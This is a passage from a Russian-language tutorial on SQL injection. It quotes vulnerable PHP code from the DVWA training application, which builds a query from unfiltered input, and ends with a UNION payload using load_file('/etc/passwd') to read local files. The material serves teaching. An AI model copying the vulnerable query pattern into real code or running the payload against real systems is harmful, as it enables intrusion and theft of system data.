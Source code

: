 Если форма уязвима, получится нарушить логику приложения и вызвать ошибку.
![](./img/sqli/sql_error.png)

## Причина уязвимости
Происходит это, потому что введенные пользователем данные никак не фильтруются перед построением запроса на их основе.

Пример уязвимого кода на PHP:
```php
<?php
if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) ...
    }
    ...
}
?>
```
*Источник: [DVWA](https://dvwa.co.uk/)*

Как было сказано раньше, в этом примере данные, полученные от пользователя, не проходят предварительных проверок и сразу же подставляются в запрос. Эта ошибка позволяет атакующему внедрить в запрос конструкции, нарушающие логику работы приложения.

## Пример нагрузки, выполняющей чтение локальных файлов:
```sql
' union select 1, load_file('/etc/passwd') #
```
![](./img/sqli/load_file.png)
